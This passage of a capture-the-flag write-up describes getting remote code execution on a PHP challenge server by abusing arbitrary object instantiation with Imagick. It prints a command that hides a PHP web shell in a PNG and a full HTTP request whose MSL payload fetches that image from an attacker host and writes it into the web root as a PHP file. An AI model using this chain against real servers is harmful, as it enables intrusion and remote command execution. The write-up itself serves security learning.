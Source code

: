 After a bit of research on the Internet, we came across this article by Swarm on the instantiation of arbitrary classes in PHP.

- https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-rce-abusing-object-creation-new-usd_get-a-usd_get-b

The article shows several different primitives, including the reading of arbitrary. At this stage there are several methods of obtaining SSRF / File read etc., but here we don't know the name of the flag and so we need to obtain an RCE.

Getting straight to the point, the article presents a method for using Imagick to create a PHP file disguised as an image and then use an arbitrary write primitive on the server.

We generate the 'image' 

```bash
convert xc:red -set 'Copyright' '<?php system($_GET["a"]); ?>' positive.png
```

Parameters animal_type & animal_name are get from $_REQUEST so we can send them in GET or POST. We use the following request :

```bash
POST /index.php?animal_type=Imagick&animal_name=vid:msl:/tmp/php* HTTP/1.1
Host: node2.challenges.ctf20k.root-me.org:25533
Content-Length: 293
Content-Type: multipart/form-data; boundary=abcde12345
Cookie: PHPSESSID=..
Connection: keep-alive

--abcde12345
Content-Disposition: form-data; name="exec"; filename="exec.msl"
Content-Type: text/plain

<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="https://attacker.fr/positive.png" />
<write filename="/var/www/html/rce.php" />
</image>
--abcde12345--
```
The file positive.php has been written in server, and we can RCE and get the flag :


![RCE_instanciafail](/images/rce_instanciafail.png)

We can get the flag in /flag-th3_Fl4g_1s_1nsId3.txt.